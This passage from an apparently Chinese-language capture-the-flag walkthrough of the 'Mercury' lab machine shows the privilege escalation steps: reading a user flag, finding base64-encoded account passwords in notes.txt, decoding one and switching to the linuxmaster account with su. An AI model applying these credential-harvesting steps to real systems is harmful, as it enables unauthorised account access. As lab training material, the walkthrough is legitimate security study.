   ```
  webmaster@mercury:~$ sudo -l
  [sudo] password for webmaster: 
  Sorry, user webmaster may not run sudo on mercury.
  webmaster@mercury:~$ cat user_flag.txt 
  [user_flag_8339915c9a454657bd60ee58776f4ccd]
  ```

- 当前用户无法使用`sudo -l`查看权限

## 提权

- 在当前用户目录中发现另一个管理员账号，根据名称推测该账号比当前账号权限更高。 将密文使用base64进行解码

- ```shell
  webmaster@mercury:~$ pwd
  /home/webmaster
  webmaster@mercury:~$ cd mercury_proj/
  webmaster@mercury:~/mercury_proj$ ls
  db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
  webmaster@mercury:~/mercury_proj$ ls -lhai
  total 28K
  162261 drwxrwxr-x 5 webmaster webmaster 4.0K Aug 28  2020 .
   35299 drwx------ 4 webmaster webmaster 4.0K Aug 20 05:14 ..
  165898 -rw-r--r-- 1 webmaster webmaster    0 Aug 27  2020 db.sqlite3
  165900 -rwxr-xr-x 1 webmaster webmaster  668 Aug 27  2020 manage.py
  165882 drwxrwxr-x 6 webmaster webmaster 4.0K Sep  1  2020 mercury_facts
  165766 drwxrwxr-x 4 webmaster webmaster 4.0K Aug 28  2020 mercury_index
  165765 drwxrwxr-x 3 webmaster webmaster 4.0K Aug 28  2020 mercury_proj
  166251 -rw------- 1 webmaster webmaster  196 Aug 28  2020 notes.txt
  webmaster@mercury:~/mercury_proj$ cat notes.txt 
  Project accounts (both restricted):
  webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
  linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
  webmaster@mercury:~/mercury_proj$ 
  
  ```

- 成功切换到`linuxmaster`用户

- ```shell
  webmaster@mercury:~/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
  mercurymeandiameteris4880km
  webmaster@mercury:~/mercury_proj$ su linuxmaster
  Password: 
  linuxmaster@mercury:/home/webmaster/mercury_proj$ whoami
  linuxmaster
  linuxmaster@mercury:/home/webmaster/mercury_proj$ id
  uid=1002(linuxmaster) gid=1002(linuxmaster) groups=1002(linuxmaster),1003(viewsyslog)
  linuxmaster@mercury:/home/webmaster/mercury_proj$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 08:00:27:1e:20:e4 brd ff:ff:ff:ff:ff:ff
      inet 192.168.56.102/24 brd 192.168.56.255 scope global dynamic enp0s3
         valid_lft 578sec preferred_lft 578sec
      inet6 fe80::a00:27ff:fe1e:20e4/64 scope link 
         valid_lft forever preferred_lft forever
  linuxmaster@mercury:/home/webmaster/mercury_proj$ sudo -l
  Matching Defaults entries for linuxmaster on mercury:
  ```
